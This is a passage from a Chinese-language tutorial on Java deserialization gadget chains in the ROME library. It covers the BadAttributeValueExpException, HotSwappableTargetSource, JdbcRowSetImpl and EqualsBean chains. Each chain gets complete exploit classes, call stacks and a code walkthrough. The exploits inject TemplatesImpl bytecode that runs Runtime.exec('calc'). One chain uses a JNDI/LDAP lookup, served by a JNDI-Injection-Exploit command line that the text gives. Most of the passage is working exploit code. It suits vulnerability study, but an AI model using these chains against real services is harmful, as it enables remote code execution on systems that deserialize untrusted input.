import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class BadAttrExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);

        // 创建BadAttributeValueExpException对象
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFiled(badAttributeValueExpException, "val", toStringBean);

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("BadAttrExp.bin"));
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("BadAttrExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<clinit>:-1, cccc
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:48, BadAttrExp (RomeSec)
```

### 详细分析

查看BadAttributeValueExpException的readObject方法

```plain
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    // 使用 ObjectInputStream 的 readFields 方法获取反序列化的字段
    ObjectInputStream.GetField gf = ois.readFields();
    // 从字段集合中获取名为 "val" 的字段的值
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        // 重点在这里，调用了toString方法
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

这段代码用于反序列化对象中的字段，并根据字段的类型和值进行处理，而且这里调用了toString方法，符合利用链的要求  
所以只需要将valObj设置为ToStringBean对象即可，根据下面这句代码

```plain
Object valObj = gf.get("val", null);
```

只需要在构造BadAttributeValueExpException对象的时候，将其val参数设置成ToStringBean对象即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124810-1cc85790-b74f-1.png)

**注**：这里进入对应的分支是System.getSecurityManager()返回的null，表示当前线程并未设置或安装安全管理器

## 7\. HotSwappableTargetSource利用链

### 环境依赖

```plain
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString
XString.equals()
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class HotSwapExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("aaaa");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建HotSwappableTargetSource
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");


        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("HotSwap.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("HotSwap.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:60, HotSwapExp (RomeSec)
```

### 详细分析

这条链的前后不变，中间加入了HotSwappableTargetSource和XString

从HashMap开始，在exp中put了2对键值，在读取完第一套键值后，读取第二套键值时在putVal函数出会触发  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124835-2bc735c2-b74f-1.png)

在putVal函数中会对键作比较，此时传入的参数key就是第二次put进入的key，它会与前面已经存放进入HashMap的key逐个作比较  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124855-3779c1fa-b74f-1.png)

接下来就借助了HotSwappableTargetSource类中的equals方法

```plain
public boolean equals(Object other) {
    return this == other || other instanceof HotSwappableTargetSource && this.target.equals(((HotSwappableTargetSource)other).target);
}
```

从这里可以得到put进入map的两个key都必须为HotSwappableTargetSource对象，第二个是为了能够调用HotSwappableTargetSource的equals方法，另一个是当成参数传递，但由于代码中对传入的参数进行强制的类型转换，所以传入的other也必须要是HotSwappableTargetSource对象

简单而言，这个函数里面的this对应上一个方法的key，即put的第二个key；这里的other对应上一个方法的k，即put的第一个key  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124912-41b9c23c-b74f-1.png)

在equals方法中，会调用target的equals方法，所以这里的target需要设置XString对象  
因为XString对象中存在equals方法，并且需要一个参数，而且还调用了该参数的toString方法  
因此可以得知第二个HotSwappableTargetSource对象的target参数设置成XString对象，而第二个HotSwappableTargetSource对象的target则设置成ToStringBean对象，这样就能够调用XString类的equals方法进而触发ToStringBean的toString方法

```plain
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124932-4d8eaa46-b74f-1.png)

然后来到了ToStringBean类的toString方法，获取\_beanClass的所有get方法并调用，和前面的链一致

## 8\. JdbcRowSetImpl利用链

### 利用链

```plain
JdbcRowSetImpl.connect()
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowExp {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/nils4f";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowSet, url);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "bbbb");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("JdbcRowExp.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("JdbcRowExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }
}
```

### 函数调用栈

```plain
connect:615, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:42, JdbcRowExp (RomeSec)
```

### 详细分析

这条链的组合是前半部分不变，修改后半部分，即替换前面的TemplatesImpl为JdbcRowSetImpl，后面的链就会发生变化

同样在ToStringBean的toString方法中，会调用getPropertyDescriptors来获得JdbcRowSetImpl的所有公开的get方法，然后逐个使用invoke调用  
而在JdbcRowSetImpl链中的关键是调用getDatabaseMetaData方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124955-5b639a46-b74f-1.png)

在JdbcRowSetImpl的getDatabaseMetaData方法中会调用connect方法

```plain
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

进入connect方法，会调用lookup函数，所以这里的getDataSourceName的返回值非常关键，需要是可以利用的ldap链接，所以在exp中进行如下设置

```plain
// ldap url
String url = "ldap://127.0.0.1:1389/nils4f";

// 创建JdbcRowSetImpl对象
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
dataSource.setAccessible(true);
dataSource.set(jdbcRowSet, url);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120125013-662ebb36-b74f-1.png)

其中LDAP服务可以通过JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar工具开启

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```

## 9\. EqualsBean利用链

### 调用链

```plain
TemplatesImpl.getOutputProperties()
EqualsBean.beanEquals()
EqualsBean.equals()
AbstractMap.equals()
HashMap.putVal()
HashMap.put()
HashSet.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

public class EqualsBeanExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templateImpl);
        map2.put("zZ", bean);
        map2.put("yy", templateImpl);
        HashSet table = new HashSet();
        table.add(map1);
        table.add(map2);

        setFiled(bean, "_beanClass", Templates.class);
        setFiled(bean, "_obj", templateImpl);
        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("EqualsBean.bin"));
        objectOutputStream.writeObject(table);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("EqualsBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect) [2]
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:472, AbstractMap (java.util)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readObject:334, HashSet (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect) [1]
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:62, EqualsBeanExp (RomeSec)
```

### 详细分析

在EqualsBean的beanEquals方法中也能够获取类的get方法并调用

```plain
public boolean beanEquals(Object obj) {
    Object bean1 = this._obj;
    Object bean2 = obj;
    boolean eq;
    if (obj == null) {
        eq = false;
    } else if (bean1 == null && obj == null) {
        eq = true;
    } else if (bean1 != null && obj != null) {
        // 注意这句
        if (!this._beanClass.isInstance(obj)) {
            eq = false;
        } else {
            eq = true;

            try {
                // 获取方法
                PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
                if (pds != null) {
                    for(int i = 0; eq && i < pds.length; ++i) {
                        Method pReadMethod = pds[i].getReadMethod();
                        if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                            // 这里
                            Object value1 = pReadMethod.invoke(bean1, NO_PARAMS);
                            Object value2 = pReadMethod.invoke(bean2, NO_PARAMS);
                            eq = this.doEquals(value1, value2);
                        }
                    }
                }
            } catch (Exception var10) {
                throw new RuntimeException("Could not execute equals()", var10);
            }
        }
    } else {
        eq = false;
    }

    return eq;
}
```

而调用此方法的是EqualsBean的equals方法

```plain
public boolean equals(Object obj) {
    return this.beanEquals(obj);
}
```

在HashMap的putVal方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120125053-7d83e0a4-b74f-1.png)

在进入AbstractMap的equals方法中，这里就是对两个map元素逐个比较  
